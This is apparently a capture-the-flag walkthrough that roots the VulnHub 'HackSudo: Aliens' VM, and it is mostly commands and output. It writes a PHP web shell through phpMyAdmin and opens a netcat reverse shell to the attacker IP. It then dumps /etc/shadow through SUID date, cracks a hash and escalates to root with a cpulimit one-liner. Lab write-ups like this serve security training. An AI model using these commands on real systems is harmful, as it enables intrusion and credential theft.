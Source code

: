```yaml
---
title: "HackSudo: Aliens CTF Walkthrough"
---
```


The VM can be found [here](https://www.vulnhub.com/entry/hacksudo-aliens,676/)

### nmap service scan
{% highlight terminal %}
┌──(kali㉿kali)-[~]
└─$ nmap -p- -sV 192.168.56.160
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-09 10:32 EDT
Nmap scan report for 192.168.56.160
Host is up (0.0043s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
9000/tcp open  http    Apache httpd 2.4.38 ((Debian))
{% endhighlight %}

### dirb
{% highlight terminal %}
==> DIRECTORY: http://192.168.56.160/backup/             
{% endhighlight %}
inside the directory is a shell script: 
{% highlight bash %}
# Specify which database is to be backed up
db_name=""

# Set the website which this database relates to
website="localhost"

# Database credentials
user="vishal"
password="hacksudo"
host="localhost"

{% endhighlight %}
Those credentials grants us access to the PhpMyAdmin panel running on port 9000 on the system. 

navigating to the following URL shows the password hashes of the users: 
`http://192.168.56.160:9000/index.php?route=/sql&db=mysql&table=user&pos=0`

after cracking the hashes of each phpmyadmin user, I appended the passwords to the 
user list. 
cat users.txt
{% highlight text %}
┌──(kali㉿kali)-[~/ctfs/hacksudo-aliens]
└─$ cat users.txt                                                  
hacksudo
phpmyadmin
root
shovon
vishal
123
{% endhighlight %}

gobuster on port 80: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/hacksudo-aliens]
└─$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.56.160 -q -x php,txt,html
/index.html           (Status: 200) [Size: 2225]
/images               (Status: 301) [Size: 317] [--> http://192.168.56.160/images/]
/game.html            (Status: 200) [Size: 701]                                    
/backup               (Status: 301) [Size: 317] [--> http://192.168.56.160/backup/]
/server-status        (Status: 403) [Size: 279] 
{% endhighlight %}

Back in the PhpMyAdmin Section, we can run an SQL query that writes our backdoor.php:
{% highlight SQL %}
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/backdoor.php"
{% endhighlight %}

This saves the command injection script to the default web root on port 80. From here
we can start a reverse TCP shell using netcat to connect to a listener set up on the 
attacking machine as follows: 

{% highlight text %}
http://192.168.56.160/backdoor.php?cmd=nc%20-e%20/bin/sh%20192.168.56.101%206666
{% endhighlight %}


Catching the connection and spawning an interactive shell:
{% highlight terminal %}
python3 -c 'import pty; pty.spawn("/bin/bash");'
www-data@hacksudo:/var/www/html$ ls /home
{% endhighlight %}

finding the SUID binaries:
{% highlight terminal %}
www-data@hacksudo:/home$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/date
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/su
/usr/bin/ntfs-3g
/usr/bin/bwrap
/usr/bin/sudo
/usr/lib/xorg/Xorg.wrap
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd
{% endhighlight %}

date sticks out in that list, we can get the date command to read a file with 
elevated privileges. Here's an example of reading the shadow file to find the user
hashes on the system:

{% highlight terminal %}
www-data@hacksudo:/tmp$ date -f /etc/shadow 
date -f /etc/shadow
date: invalid date ‘root:$6$N6p.dpWhPYXSXC9U$8EraUiQ5DtMF5ov2ZbnY8DoLK1liRukqhTnTTK67MQ.tgpglkVX/I9P1aYjNeO/cwjQk9lJ/ABd9YLTMeMSn3/:18721:0:99999:7:::’
date: invalid date ‘daemon:*:18714:0:99999:7:::’
date: invalid date ‘bin:*:18714:0:99999:7:::’
date: invalid date ‘sys:*:18714:0:99999:7:::’
date: invalid date ‘sync:*:18714:0:99999:7:::’
date: invalid date ‘games:*:18714:0:99999:7:::’
date: invalid date ‘man:*:18714:0:99999:7:::’
date: invalid date ‘lp:*:18714:0:99999:7:::’
date: invalid date ‘mail:*:18714:0:99999:7:::’
date: invalid date ‘news:*:18714:0:99999:7:::’
date: invalid date ‘uucp:*:18714:0:99999:7:::’
date: invalid date ‘proxy:*:18714:0:99999:7:::’
date: invalid date ‘www-data:*:18714:0:99999:7:::’
date: invalid date ‘backup:*:18714:0:99999:7:::’
date: invalid date ‘list:*:18714:0:99999:7:::’
date: invalid date ‘irc:*:18714:0:99999:7:::’
date: invalid date ‘gnats:*:18714:0:99999:7:::’
date: invalid date ‘nobody:*:18714:0:99999:7:::’
date: invalid date ‘_apt:*:18714:0:99999:7:::’
date: invalid date ‘systemd-timesync:*:18714:0:99999:7:::’
date: invalid date ‘systemd-network:*:18714:0:99999:7:::’
date: invalid date ‘systemd-resolve:*:18714:0:99999:7:::’
date: invalid date ‘messagebus:*:18714:0:99999:7:::’
date: invalid date ‘tss:*:18714:0:99999:7:::’
date: invalid date ‘dnsmasq:*:18714:0:99999:7:::’
date: invalid date ‘usbmux:*:18714:0:99999:7:::’
date: invalid date ‘rtkit:*:18714:0:99999:7:::’
date: invalid date ‘pulse:*:18714:0:99999:7:::’
date: invalid date ‘speech-dispatcher:!:18714:0:99999:7:::’
date: invalid date ‘avahi:*:18714:0:99999:7:::’
date: invalid date ‘saned:*:18714:0:99999:7:::’
date: invalid date ‘colord:*:18714:0:99999:7:::’
date: invalid date ‘geoclue:*:18714:0:99999:7:::’
date: invalid date ‘hplip:*:18714:0:99999:7:::’
date: invalid date ‘Debian-gdm:*:18714:0:99999:7:::’
date: invalid date ‘hacksudo:$6$cOv4E/VKAe0EVwV4$YScCx10zfi7g4aiLY.qo8QPm2iOogJea41mk2rGk/0JM5AtnrmiyTN5ctNJ0KTLS5Iru4lHWYPug792u3L/Um1:18721:0:99999:7:::’
date: invalid date ‘systemd-coredump:!!:18714::::::’
date: invalid date ‘sshd:*:18714:0:99999:7:::’
date: invalid date ‘mysql:!:18720:0:99999:7:::’
www-data@hacksudo:/tmp$ 
{% endhighlight %}

Let's copy out the hacksudo password hash, save it to a file and try to crack it with
john

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/hacksudo-aliens]
└─$ john hacksudo-hash.txt --show                                                1 ⨯
hacksudo:aliens:18721:0:99999:7:::

1 password hash cracked, 0 left
{% endhighlight %}
 
logging into ssh with the cracked credentials hacksudo:aliens
{% highlight terminal %}
hacksudo@192.168.56.160's password: 
Linux hacksudo 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Apr  4 02:12:24 2021 from 192.168.43.217
hacksudo@hacksudo:~$ 
{% endhighlight %}

Enumerating locally: 

{% highlight terminal %}
hacksudo@hacksudo:~$ find / -perm -u=s -type f 2>/dev/null 
/home/hacksudo/Downloads/cpulimit
/usr/bin/date
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/su
/usr/bin/ntfs-3g
/usr/bin/bwrap
/usr/bin/sudo
/usr/lib/xorg/Xorg.wrap
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd
{% endhighlight %}


`/home/hacksudo/Downloads/cpulimit` is likely vulnerable to the following GTFObins
oneliner: 
{% highlight terminal %}
./cpulimit -l 100 -f -- /bin/sh -p
{% endhighlight %}

{% highlight terminal %}
hacksudo@hacksudo:~/Downloads$ ./cpulimit -l 100 -f -- /bin/sh -p
Process 2312 detected
# id
uid=1000(hacksudo) gid=1000(hacksudo) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),112(bluetooth),116(lpadmin),117(scanner),1000(hacksudo)
# 
# cd /root
# ls
root.txt
# cat root.txt
 _   _            _                  _       
| | | | __ _  ___| | _____ _   _  __| | ___  
| |_| |/ _` |/ __| |/ / __| | | |/ _` |/ _ \ 
|  _  | (_| | (__|   <\__ \ |_| | (_| | (_) |
|_| |_|\__,_|\___|_|\_\___/\__,_|\__,_|\___/ 
                                             
    _    _ _            ____   __   
   / \  | (_) ___ _ __ | ___| / /_  
  / _ \ | | |/ _ \ '_ \|___ \| '_ \ 
 / ___ \| | |  __/ | | |___) | (_) |
/_/   \_\_|_|\___|_| |_|____/ \___/ 

congratulations you rooted hacksudo alien56...!!!
flag={d045e6f9feb79e94442213f9d008ac48}
# 
{% endhighlight %}

